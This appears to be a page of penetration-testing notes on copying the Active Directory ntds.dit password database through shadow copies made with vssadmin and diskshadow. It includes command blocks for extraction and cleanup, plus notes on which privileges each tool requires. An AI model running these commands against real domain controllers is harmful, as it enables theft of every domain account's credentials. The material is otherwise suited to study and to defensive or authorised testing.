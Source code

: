 ###### vssadmin

The Windows built-in `Volume Shadow Copy Service administrative (vssadmin)`
command line utility can be used to create a `shadow copy` of the Windows install
volume in order to make a `shadow copy` of the `ntds.dit` database file.

While still available by default, the `vssadmin` utility has been superseded by
the `diskshadow` utility on `Windows Server 2008`, and later.

Note that the `vssadmin` utility requires elevated privileges that are not
attributed to members of the `Backup Operators` domain group (error: `Error:
You don't have the correct permissions to run this command.`).

```
vssadmin create shadow /for=C:
# Shadow Copy ID: <GUID>
# Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<ID>

# The copy should be done using the DOS copy.exe utility, as the copy PowerShell command, alias for Get-ChildItem seems to have trouble copying from a shadow volume.
cmd.exe /c "copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<ID>\Windows\NTDS\ntds.dit <EXPORTED_NTDS_DIT>"

vssadmin delete shadows /shadow=<GUID>
```

###### diskshadow

Similarly to the `vssadmin` utility, the Windows `diskshadow` utility directly
interact with the Windows `VSS` service.

By default, the `diskshadow` utility uses an interactive command interpreter
but also includes the possibility to execute `diskshadow` commands directly
from a script file.

Note that the `diskshadow` utility can be used by members of the `Backup
Operators` domain group to create a shadow volume.

The following `diskshadow` commands can be executed, either through an
interactive `diskshadow` commands interpreter or from a script file by starting
`diskshadow.exe -s <SCRIPT_FILE>`, to create a shadow volume and directly copy
the `ntds.dit` file. In order to make use of the `diskshadow.exe`'s `exec
"cmd.exe" [...]` command, `diskshadow.exe` must be started in the
`C:\Windows\System32` directory, otherwise the command execution will fail.
If doing so is not a possibility, the copy may also be done outside of
`diskshadow`, after the shadow volume creation.

```
set context persistent nowriters
add volume c: alias <ALIAS>
create
expose %<ALIAS>% <DRIVE_LETTER>:
exec "cmd.exe" /c copy <DRIVE_LETTER>:\Windows\NTDS\ntds.dit <EXPORTED_NTDS_DIT>
delete shadows volume %<ALIAS>%
reset
```
